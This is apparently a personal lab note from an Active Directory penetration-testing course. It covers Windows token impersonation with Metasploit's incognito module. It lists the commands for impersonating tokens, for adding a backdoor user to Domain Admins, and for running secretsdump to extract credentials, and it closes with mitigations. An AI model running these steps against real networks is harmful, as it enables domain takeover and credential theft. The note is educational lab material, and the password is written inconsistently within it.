


## What?

- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file.
- Cookies for Computers!!
- 2 Types:
	1. **Delegate** - Created for logging into a machine or using Remote Desktop (Common)(Target in this note)
	2. **Impersonate** - "non-interactive" such as attaching a network drive or a domain logon script. Eg: a script that accesses some server to fetch something will have this type of token.

## Process (one of many different ways)

Step 1:  
Pop a shell and load incognito

## How I went about it

Followed the "Gaining shell" note and basically got a shell on fcastle using the password via metasploit -> [Gaining Initial Shell Access](/subpages/ini-shell-access)  

typed `load incognito` in msfconsole  
  
	to check commands in incongnito type `help` after loading incognito  
		In this lab I used the `list_tokens`  and `impersonate_token`  

`list_tokens -u` -> -u is for users  
  

`impersonate_token marvel\\fcastle`  
  

`rev2self` takes control to where it was before  
In this case it was to NT Authority/ System  
  

EVENT:  
ADMINISTRATOR LOGS IN ON THE SAME MACHINE  
in our case we log in as **MARVEL\Administrator** from fcastle user machine  
This creates a delegation token for **MARVEL\Administrator** ..... as seen below  
  

This token can then be impersonated to get a shell with higher privilages  
  

### Proof of concept
for a proof of concept that we have a really high privilage:  
	1) `net user /add hawkeye Password!@ /domain`  
	2) `net group "Domain Admins" hawkeye /ADD /DOMAIN`  
and this will create a user hawkeye with password as Password1@ and also give it domain admin privilages  
  

proof this worked:  
`secretsdump.py MARVEL.local/hawkeye:'Password1@'@192.168.138.136`  
secretsdump on DC should only work if done as a domain admin, so the above thing should work   

## Mitigation

1. Limit user/group token creation permission 
2. Account tiering (best practice)
	- If bob is domain admin and bob logs in to DC with his domain admin account we don't have to worry about domain admin creds or delegate tokens getting left behind because domain admins are logging into machines that they don't need to be.
	- You can always set extra permissions on machines for other accounts, you don't have to utilize domain admin to do that. 
3. Local admin restriction (best practice) 
	- prevent accessing this machine in the first place
